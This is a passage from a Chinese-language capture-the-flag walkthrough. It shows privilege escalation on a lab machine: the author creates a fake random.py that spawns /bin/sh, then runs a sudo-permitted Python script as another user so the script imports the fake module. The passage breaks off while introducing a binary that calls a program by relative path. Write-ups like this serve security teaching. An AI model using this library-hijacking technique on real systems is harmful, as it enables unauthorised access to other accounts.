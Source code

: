 看起来就是利用 random 库实现一个随机打印 10 行诗歌，我们定位一个 random 库的位置，先看一下 python3 模块的目录

```bash
python3 -c 'import sys; print (sys.path)'
```

[![](assets/1706771526-b3e7ae38bddb0faff0141a2668266b23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222738-8de09324-beb2-1.png)

发现这里有一个空白的的模块未被使用

这里我创建了一个起/bin/sh 的脚本

```bash
import os

os.system('/bin/sh')
```

[![](assets/1706771526-f8c2be0a98782916164ff2589b098927.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222744-9159518a-beb2-1.png)

这样和 walrus 脚本在同一目录，这样的话，他和 random.py 是调用模块是一样的，我们如果执行了 walrus 脚本，也可以执行 random.py

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

[![](assets/1706771526-9ed275cb4b24560cfdf7da4429c879f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222750-94835d10-beb2-1.png)

### 调用二进制文件相对路径的坏处

进入 rabbit 目录，发现有一个 64 位的二进制文件，直接执行发现没有提权，IDA 分析一下，发现 main 函数存在逻辑问题

[![](assets/1706771526-cca06f65ddab20863f60d8f302aca4f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222754-97524dbc-beb2-1.png)
